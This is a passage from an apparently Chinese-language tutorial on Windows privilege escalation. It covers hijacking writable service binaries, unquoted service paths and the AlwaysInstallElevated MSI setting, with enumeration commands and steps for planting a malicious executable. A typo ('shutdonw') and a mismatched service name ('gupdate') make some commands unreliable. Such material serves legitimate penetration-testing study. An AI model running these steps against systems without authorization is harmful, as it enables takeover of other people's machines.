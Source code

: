 #### 方法三（服务路径权限可控）

使用`accesschk.exe`查看`InsexeSvc`这个服务的二进制文件所在目录是否有写入的权限

```bash
accesschk.exe /accepteula -quv "C:\Program Files\Insecure Executables\"
```

将该服务重命名

```bash
cp InsexeSvc.exe InsexeSvc.exe.bak
或者
ren InsexeSvc.exe InsexeSvc.exe.bak
```

在该路径传入恶意攻击载荷

如果有关闭和开启该服务的权限则直接关闭和开启该服务

```bash
sc stop gupdate
sc start gupdate
```

如果没有，则重启系统

```bash
shutdonw -r -t 0
```

#### 方法四（未引用的服务路径）

例如 `binpath`为`C:\Program Files\Sub Dir\Program Naem.exe`，则系统会依次去执行以下程序：`C:\Program.exe` `C:\Program Files\Sub.exe` `C:\Program Files\Sub Dir\Program.exe` `C:\Program Files\Sub Dir\Program Naem.exe`

如果我们对`C:\Program Files\Sub Dir\`有可写权限，则可以进行服务劫持

枚举存在该漏洞的服务(在`cmd.exe`下执行)

```bash
wmic service get DisplayName,PathName,StartMode | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

检测是否有可写权限

```bash
accesschk.exe /accepteula -quv "C:\Program Files\"
```

在`C:\Program Files\` 传入恶意文件 `Sub.exe`

服务再次启动后，就会先启动我们的恶意文件

### MSI安装策略提权

MSI安装策略提权是由于用户在配置MSI安装策略时，启用了“永远以高特权进行安装”（`AlwaysInstallElevated`，默认禁用），使得任何权限的用户都可以通过SYSTEM权限安装MSI程序。此时，可以在目标主机上安装一个预先制作的恶意MSI文件，以获得SYSTEM权限。

查看注册表来判断是否开启了`AlwaysInstallElevated`，开启后值都为`0x1`

```bash
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

